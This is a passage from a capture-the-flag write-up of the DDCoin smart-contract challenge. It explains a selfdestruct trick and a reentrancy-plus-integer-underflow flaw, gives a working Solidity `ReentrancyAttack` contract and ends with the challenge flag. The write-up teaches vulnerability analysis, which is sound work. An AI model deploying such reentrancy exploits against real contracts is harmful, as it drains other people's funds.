

Here we are deploying the `SelfDestructAttack` smart contract with a value of 15 ether. We are then deploying it with the victim being the address of the DDCoin smart contract.

After executing this attack, we can see that the `DDCoin` contract now has a balance of 15 eth:



Now we only need to call the `exchange_gold_to_diamond_cheap()` function with the password that we got in step 2! After executing this, the amount of gold coins is 0, and the amount of diamond coins is 1!

## Step 4: Getting a DDCoin

We're getting close to having a DDCoin! There is only an `exchange_diamond_to_ddcoin()` function which looks like this:

```sol
function exchange_diamond_to_ddcoin() external{
  require(diamond_coins >= exchange_cost, "You can't afford this exchange");
  diamond_coins = 0;
  ddcoin++;
}
```

To execute this function we need $10^{18}$ diamond coins. This is not feasible to get with our method of getting a diamond coin. Let's look at the function called `withdraw_diamond()`:

```sol
function withdraw_diamond(bytes32 _password) external{
  unchecked { //Gas saving
    require(password == _password, "Wrong password");
    require(diamond_coins >= 1, "You can't afford this exchange");
    (bool result,) = msg.sender.call{value: 1000000000000000000}("");
    require(result);
    diamond_coins -= 1;
  }
}
```

This function runs inside an `unchecked { ... }` block. As we learned earlier, this means that we can potentially trigger an integer over/underflow.

The function does the following

1. Checks if the password is correct
   - This is the password from earlier
2. Checks that we have at least 1 diamond.
3. Sends the caller 1 eth
4. Checks if it succeeded in sending the eth
5. Lastly subtracts one diamond coin

At first glance this function might look secure, but it is vulnerable to a Reentrancy attack. This attack is possible due to the way that ethereum is sent: `msg.sender.call{value: 1000000000000000000}("")`. This actually calls the `fallback()` function of the `msg.sender`. We can create our own smart contract that has a fallback function, and call the `withdraw_diamonds()` from there.

Let's write a smart contract that can exploit the reentrancy vulnerability:

```sol
// SPDX-License-Identifier: MIT
pragma solidity = 0.8.19;

bytes32 constant password = 0x446964596f755468696e6b5468617454686973576173546865466c6167000000;

interface IDDCoin {
    function withdraw_diamond(bytes32 _password) external;
}

contract ReentrancyAttack {
  IDDCoin victim;
  
  bool has_reentered = false;

  constructor (IDDCoin _victim) payable {
    victim = _victim;
  }

  receive() external payable { 
    // This function is called when DDCoin runs msg.sender.call{value: ...}("")

    // We make sure to only reenter once
    if (!has_reentered) {
      has_reentered = true;

      // Here we execute the same function again.
      // This call will run and complete before the diamond_coins are subtracted in the original call
      victim.withdraw_diamond(password);
    }
  }

  function execute_attack() external {
    // This will trigger the attack, as the receive() function is called when the
    // DDCoin contract tries to send us eth.
    victim.withdraw_diamond(password);
  }
}
```

The reason that we write our own smart contract is that we can execute our own code when DDCoin tries to send the caller eth. This allows us to execute the `withdraw_diamonds()` function again before the original call completes. This means that we can actually get DDCoin to subtract diamond_coins twice. Since it is inside an `unchecked { ... }` block, this will trigger an integer underflow, and give us a very large amount of diamond_coins.

We can now deploy the contract with the address of the DDCoin contract as the constructor parameter, and execute the `execute_attack()` function.

We now have `115792089237316195423570985008687907853269984665640564039457584007913129639935` diamond coins which is more than the required $10^{18}$ that is needed to run the `exchange_diamond_to_ddcoin()` function.

When we run the `exchange_diamond_to_ddcoin()` function, the `diamond_coins` is set to 0, and `ddcoin` is set to 1!

# Flag

We can now get the flag by going to the website and clicking on the `Jeg ejer en DDCoin!` button!



`DDC{DDCoin_to_the_mo0o0o0o0onnNn}`
